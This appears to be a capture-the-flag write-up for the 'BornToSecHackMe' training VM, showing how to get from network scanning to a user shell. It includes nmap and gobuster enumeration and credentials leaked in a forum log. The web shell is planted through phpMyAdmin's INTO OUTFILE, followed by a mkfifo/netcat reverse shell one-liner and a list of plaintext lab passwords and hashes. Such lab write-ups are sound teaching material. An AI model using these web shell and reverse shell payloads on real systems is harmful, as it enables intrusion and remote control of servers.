



# Writeup1

first way to become root

## netcat

```bash
nmap -sn 192.168.1.0/24 -oA scan.txt
nmap -p- 192.168.1.146
>> Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-06-16 16:21 CEST
>> Nmap scan report for BornToSecHackMe.lan (192.168.1.146)
>> Host is up (0.047s latency).
>> Not shown: 65529 closed tcp ports (conn-refused)
>> PORT    STATE SERVICE
>> 21/tcp  open  ftp
>> 22/tcp  open  ssh
>> 80/tcp  open  http
>> 143/tcp open  imap
>> 443/tcp open  https
>> 993/tcp open  imaps
```
---

| Port	  | Service	| mean |
| ----- | ----- | ----- | 
| 21/tcp | 	FTP | File transfert Protocol |
| 22/tcp | 	SSH | shell connection  |
| 80/tcp | 	HTTP | website  http://192.168.1.X |
| 143/tcp | IMAP |  email Server |
| 443/tcp | HTTPS | website SSL |
| 993/tcp | IMAPS | Encrypted IMAP |
---

## wesite


```html
<!DOCTYPE html>
<html>
<head>
	<meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
	<title>Hack me if you can</title>
	<meta name='description' content='Simple and clean HTML coming soon / under construction page'/>
	<meta name='keywords' content='coming soon, html, html5, css3, css, under construction'/>	
	<link rel="stylesheet" href="style.css" type="text/css" media="screen, projection" />
	<link href='http://fonts.googleapis.com/css?family=Coustard' rel='stylesheet' type='text/css'>

</head>
<body>
	<div id="wrapper">
		<h1>Hack me</h1>
		<h2>We're Coming Soon</h2>
		<p>We're wetting our shirts to launch the website.<br />
		In the mean time, you can connect with us trought</p>
		<p><a href="https://fr-fr.facebook.com/42Born2Code"></a> <a href="https://plus.google.com/+42Frborn2code"></a> <a href="https://twitter.com/42born2code"></a></p>
	</div>
</body>
</html>
```

---- 

### gobuster

```bash
gobuster dir -u https://192.168.1.64/ -w common.txt -k -x php,bak,txt,sql      

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://192.168.1.64/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,bak,txt,sql
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 1025]
/.html                (Status: 403) [Size: 286]
/forum                (Status: 403) [Size: 286]
/fonts                (Status: 301) [Size: 314] [--> http://192.168.1.X/fonts/]
/.html                (Status: 403) [Size: 286]
/forum/index.php?mode=lmezard.sql (Status: 200) [Size: 5317]
/forum/index.php?mode=lmezard.php (Status: 200) [Size: 5317]
/forum/index.php?mode=login.bak (Status: 200) [Size: 5317]
/forum/index.php?mode=lmezard.bak (Status: 200) [Size: 5317]
/forum/index.php?mode=lmezard (Status: 200) [Size: 5317]
/forum/index.php?mode=login.php (Status: 200) [Size: 5317]
/forum/index.php?mode=login.sql (Status: 200) [Size: 5317]
/forum/index.php?mode=login (Status: 200) [Size: 3270]
/forum/index.php?mode=login.txt (Status: 200) [Size: 5317]
/forum/index.php?mode=lmezard.txt (Status: 200) [Size: 5317]
/forum/index.php?mode=qudevide (Status: 200) [Size: 5317]
/forum/index.php?mode=qudevide.bak (Status: 200) [Size: 5317]
/forum/index.php?mode=qudevide.txt (Status: 200) [Size: 5317]
/forum/index.php?mode=qudevide.php (Status: 200) [Size: 5317]
/forum/index.php?mode=qudevide.sql (Status: 200) [Size: 5317]
/forum/index.php?mode=thor.txt (Status: 200) [Size: 5317]
/forum/index.php?mode=thor (Status: 200) [Size: 5317]
/forum/index.php?mode=thor.php (Status: 200) [Size: 5317]
/forum/index.php?mode=thor.bak (Status: 200) [Size: 5317]
/forum/index.php?mode=thor.sql (Status: 200) [Size: 5317]
/forum/index.php?mode=wandre (Status: 200) [Size: 5317]
/forum/index.php?mode=wandre.sql (Status: 200) [Size: 5317]
/forum/index.php?mode=wandre.php (Status: 200) [Size: 5317]
/forum/index.php?mode=wandre.bak (Status: 200) [Size: 5317]
/forum/index.php?mode=wandre.txt (Status: 200) [Size: 5317]
/forum/index.php?mode=zaz (Status: 200) [Size: 5317]
/forum/index.php?mode=zaz.txt (Status: 200) [Size: 5317]
/forum/index.php?mode=zaz.php (Status: 200) [Size: 5317]
/forum/index.php?mode=zaz.sql (Status: 200) [Size: 5317]
/forum/index.php?mode=zaz.bak (Status: 200) [Size: 5317]
/forum/index.php      (Status: 200) [Size: 5288]
/cgi-bin/             (Status: 403) [Size: 289]
/forum                (Status: 301) [Size: 314] [--> https://192.168.1.64/forum/]
/phpmyadmin           (Status: 301) [Size: 319] [--> https://192.168.1.64/phpmyadmin/]
/server-status        (Status: 403) [Size: 294]
/webmail              (Status: 301) [Size: 316] [--> https://192.168.1.64/webmail/]
Progress: 23100 / 23105 (99.98%)
===============================================================
Finished
===============================================================
```

## https://ip/forum

> ![Warning]
> to connect at forum don't use http:// is forbidden use https://


When we check the topics, our eyes are attract by "Problem login ?" 

### Problem login ?

that look likes a copy of a pcap file. we can someone (lmezard) trying to become admin and root. The user wanted to show a failled but the user make a mistake and leak his password.
``Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2``

So we use this information to log in. **lmezard** and `!q\]Ej?*5K5cy*AJ`

That works, we can find the [email](#users-informations).

Now go to:


## https://ip/webmail



let's try to connect with the email laurie@borntosec.net and the same password **!q\]Ej?*5K5cy*AJ** , lot of person doesn't change their password between the differents applications. 

We can see an email with the subject ***DB Access***



let's connect at the database with this informationm user = **root** pwd = ``Fg-'kKXBj87E:aJ$``.

## https://ip/phpmyadmin


We can update our [users informations](#users-informations) with this  localhost->forum_db->mlf2_userdata

there is *user_pw*, we try to decrypt the password of lmezard because we now the **clear pwd** but we didn't found. On ``https://192.168.1.146/forum/index.php?mode=user&action=edit_profile`` we can modifie the password, that change in the DB but not for the webmail service.

So we know the clear pwd of laurie so we can copy from the DB and paste in the pwd of **admin**

Now we can connect in the forum with **admin** and the same password than **lmezzard** 

Now we can access at the __Admin page__


in this page there is some php files. We will note this **url**

----

On phpmyadmin we can load file 

to know where we can write the script :
to see all the Varriables
```SQL
SHOW VARIABLES
```
or directly : 
```SQL
SHOW VARIABLES LIKE 'datadir/'
```
*response:*

| Variable_name	| Value |
|---|---|
| datadir	| /var/lib/mysql/ |
```SQL
SHOW VARIABLES LIKE 'version%'
```
*response:*
| Variable_name |	Value |
| ----|----|
| version |	5.5.44-0ubuntu0.12.04.1 |
| version_comment |	(Ubuntu) |
| version_compile_machine |	i686 |
| version_compile_os |	debian-linux-gnu |

Load malecious script:
```SQL
SELECT '<HTML><BODY><FORM METHOD="GET" NAME="myform" ACTION=""><INPUT TYPE="text" NAME="cmd"><INPUT TYPE="submit" VALUE="Send"></FORM><pre><?php if($_GET[''cmd'']) { system($_GET[''cmd'']);} ?> </pre></BODY></HTML>'
 INTO OUTFILE "/var/www/forum/templates_c/cmd.php"
```
https://192.168.1.146/forum/templates_c/cmd.php?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%20192.168.1.146%2012345%20%3E%2Ftmp%2Ff

Now, we can connect at https://192.168.1.146/forum/templates_c/cmd.php?cmd=id :


-----------

on our terminal 
```sh
nc -lnvp 1234
```

on the internet https://192.168.1.146/forum/templates_c/cmd.php :
```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

on our terminal 

```sh
cat /home/LOOKATME/password
>> lmezard:G!@M6f4Eatau{sF"
su lmezard
>> su: must be run from a terminal
```
with a research on [internet](https://unix.stackexchange.com/questions/594264/error-su-must-be-run-from-a-terminal?__cf_chl_tk=.M.TvcaACsdi9g3YQYNf2kmx6stuQibrlhF7rA6zHQ0-1782222640-1.0.1.1-DY6ddXZzuy2MR7gNUHQnMudBNiy6mAtwy_Sat_SO_EE) we found : ``python -c 'import pty; pty.spawn("/bin/sh")'``

and 

```shell
nc -lnvp 1234
>>Listening on 0.0.0.0 1234
>>Connection received on 192.168.1.64 54653
>>/bin/sh: 0: can t access tty; job control turned off
python -c 'import pty; pty.spawn("/bin/sh")'
su lmezard
Password: 'G!@M6f4Eatau{sF"'
lmezard@BornToSecHackMe:/var/www/forum/templates_c$
lmezard@BornToSecHackMe:/var/www/forum/templates_c$ cd 
lmezard@BornToSecHackMe:~$ ls
>>fun  README
lmezard@BornToSecHackMe:~$ cat README
>>Complete this little challenge and use the result as password for user 'laurie' to login in ssh
```

There is a lot of files, in shuffle order.
we cat them 
```sh
cat * | grep return
//file483    return 'a';
//file697    return 'I';
    return 'w';
    return 'n';
    return 'a';
    return 'g';
    return 'e';
//file161    return 'e';
//file252    return 't';
//file163    return 'p';
//file640    return 'r';
//file3    return 'h';
```
we notice it's c program at **file1** ``#include <stdio.h>`` and the main fonction 
```c
int main() {
	printf("M");
	printf("Y");
	printf(" ");
	printf("P");
	printf("A");
	printf("S");
	printf("S");
	printf("W");
	printf("O");
	printf("R");
	printf("D");
	printf(" ");
	printf("I");
	printf("S");
	printf(":");
	printf(" ");
	printf("%c",getme1());
	printf("%c",getme2());
	printf("%c",getme3());
	printf("%c",getme4());
	printf("%c",getme5());
	printf("%c",getme6());
	printf("%c",getme7());
	printf("%c",getme8());
	printf("%c",getme9());
	printf("%c",getme10());
	printf("%c",getme11());
	printf("%c",getme12());
	printf("\n");
	printf("Now SHA-256 it and submit");
}
```
if we seach ``getme1()`` there is `{` but not the `}` we can read //file5 so go to //file6 and we find 	``return 'I';``

we did that for every getme until getme8(), that gave us :

	Iheartpwnage
SHA-256
	`330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
`
## Users informations

|   Username |	Type | UID |	Homepage	| E-mail | pwd |
|----| ---- | --- | --- |----- | ---- | 
|   root |	root |	 0  | |	root@mail.borntosec.net|`Fg-'kKXBj87E:aJ$`|
|   admin |	Admin |	 1000  | |	admin@borntosec.net | | |
|   lmezard |	User | 1040| 	 |		laurie@borntosec.net  | `!q\]Ej?*5K5cy*AJ` </br> `G!@M6f4Eatau{sF"`|
|   qudevide |	User | | 	 |	qudevide@borntosec.net  | |
|   thor |	User |	 | | 	thor@borntosec.net  | |
|   wandre |	User | | 	 | wandre@borntosec.net | |
|   zaz |	User |	 | | zaz@borntosec.net | |


----------------

# A supprimer Brouillon 
https://192.168.1.146/forum/index.php

"In order to log in, cookies have to be activated!"

 Modifier	Modifier Éditer en place	Copier Copier	Effacer Effacer	1	2	admin		0	0000-00-00	ed0fd64f25f3bd3a54f8d272ba93b6e76ce7f3d0516d551c28	admin@borntosec.net	1					8	2015-10-08 23:08:16	2015-10-08 23:08:16	192.168.1.47	2015-10-08 01:47:03	NULL	0	0	1	0	0	0	0	0						0		2,5,3,1,6,4
	Modifier Modifier	Modifier Éditer en place	Copier Copier	Effacer Effacer	2	0	qudevide		0	0000-00-00	a12e059d6f4c21c6c5586283c8ecb2b65618ed0a0dc1b302a2	qudevide@borntosec.net	0					1	2015-10-08 02:01:43	2015-10-08 02:02:05	192.168.1.47	2015-10-08 01:52:42	NULL	0	0	1	0	0	0	0	0						0		1,2,3,4
	Modifier Modifier	Modifier Éditer en place	Copier Copier	Effacer Effacer	3	0	thor		0	0000-00-00	d30668b779542d60c4cde29e7170148198b1623f4453866797	thor@borntosec.net	0					1	2015-10-08 01:58:15	2015-10-08 01:58:41	192.168.1.47	2015-10-08 01:53:16	NULL	0	0	1	0	0	0	0	0						0		1,2,3
	Modifier Modifier	Modifier Éditer en place	Copier Copier	Effacer Effacer	4	0	wandre		0	0000-00-00	f8562b53084d60efa4208fa50d1ef753ef18e089d2dd56c4ed	wandre@borntosec.net	0					1	2015-10-08 01:57:38	2015-10-08 01:58:03	192.168.1.47	2015-10-08 01:53:48	NULL	0	0	1	0	0	0	0	0						0		1,2
	Modifier Modifier	Modifier Éditer en place	Copier Copier	Effacer Effacer	5	0	lmezard		0	0000-00-00	0171e7dbcbf4bd21a732fa859ea98a2950b4f8aa1e5365dc90	laurie@borntosec.net	0					5	2026-06-18 15:34:09	2026-06-18 15:34:09	192.168.1.144	2015-10-08 01:54:38	NULL	0	0	1	0	0	0	0	0						0		8,7,5,4,3,2,6,1
	Modifier Modifier	Modifier Éditer en place	Copier Copier	Effacer Effacer	6	0	zaz		0	0000-00-00	f10b3271bf523f12ebd58ef8581c851991bf0d4b4c4bf49d7c	zaz@borntosec.net	0	

## REF

- NNAP:
	- https://nmap.org/book/port-scanning-tutorial.html
	- https://www.varonis.com/fr/blog/nmap-commands#how-to-use
- GOBUSTER:
	- https://hackviser.com/tactics/tools/gobuster
	- https://github.com/drtychai/wordlists/blob/master/dirb/common.txt

- tuto reverse shell :
	- https://medium.com/@toon.commander/uploading-a-shell-in-phpmyadmin-61b066b481a7
	- https://www.netspi.com/blog/technical-blog/network-pentesting/linux-hacking-case-studies-part-3-phpmyadmin/
	- https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

- mkfifo:
	- http://manpagesfr.free.fr/man/man3/mkfifo.3.html

- su problem:
	- https://unix.stackexchange.com/questions/594264/error-su-must-be-run-from-a-terminal